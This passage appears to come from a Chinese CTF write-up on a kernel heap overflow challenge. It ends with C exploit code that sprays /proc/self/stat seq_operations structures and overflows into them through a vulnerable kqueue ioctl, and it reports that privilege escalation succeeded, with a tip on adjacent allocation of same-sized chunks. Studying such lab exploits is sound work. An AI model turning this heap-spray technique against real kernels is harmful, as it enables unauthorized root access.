```c
    info_log("ready to edit queue, content below:");
    print_binary((char*)data, 0x100);
    ioctl(fd, EDIT_KQUEUE, &edit_req);
    info_log("queue edited.");

    for(int i = 0; i < 0x200; i++)
        seq_fd[i] = open("/proc/self/stat", O_RDONLY);
    info_log("0x200 stat file opened.");

    request_t save_req = {
            .queue_idx = 0,
            .max_entries = 0,
            .data_size = 0x40,
    };
    ioctl(fd, SAVE, &save_req);
    info_log("queue saved.");

    info_log("ready to read stat file...");
    for(int i = 0; i < 0x200; i++)
        read(seq_fd[i], data, 1);
    info_log("stat file reading completed.");
    return 0;
}
```

提权成功。（虽然不是以#开头但可以读取flag文件）
![](8.png)
在内核态堆溢出题中，我们需要充分利用“大小相等的内存块可能会被分配到相邻位置”这一特性溢出覆盖。内核中的内存块空间没有用户态那样的块首结构，需要注意。
